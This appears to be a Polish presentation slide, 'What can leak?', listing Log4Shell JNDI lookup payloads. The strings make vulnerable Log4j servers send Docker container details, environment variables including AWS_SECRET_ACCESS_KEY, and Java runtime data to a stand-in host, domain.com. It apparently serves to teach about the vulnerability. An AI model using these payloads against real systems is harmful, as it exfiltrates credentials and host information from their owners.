

# Co może wyciekać?
# Docker Lookup ${jndi:ldap://${docker:containerId}.domain.com/j} ${jndi:ldap://${docker:containerName}.domain.com/j} ${jndi:ldap://${docker:imageId}.domain.com/j} ${jndi:ldap://${docker:imageName}.domain.com/j} ${jndi:ldap://${docker:shortContainerId}.domain.com/j} ${jndi:ldap://${docker:shortImageId}.domain.com/j} # Environment Lookup ${jndi:ldap://${env:USER}.domain.com/j} ${jndi:ldap://${env:user}.domain.com/j} ${jndi:ldap://${env:COMPUTERNAME}.domain.com/j} ${jndi:ldap://${env:USERDOMAIN}.domain.com/j} ${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.domain.com/j} ${jndi:ldap://${hostName}.domain.com/j} ${jndi:ldap://${env:JAVA_VERSION}.domain.com/j} # Java Lookup ${jndi:ldap://${java:version}.domain.com/j} ${jndi:ldap://${java:runtime}.domain.com/j} ${jndi:ldap://${java:vm}.domain.com/j} ${jndi:ldap://${java:os}.domain.com/j} ${jndi:ldap://${java:locale}.domain.com/j} ${jndi:ldap://${java:hw}.domain.com/j}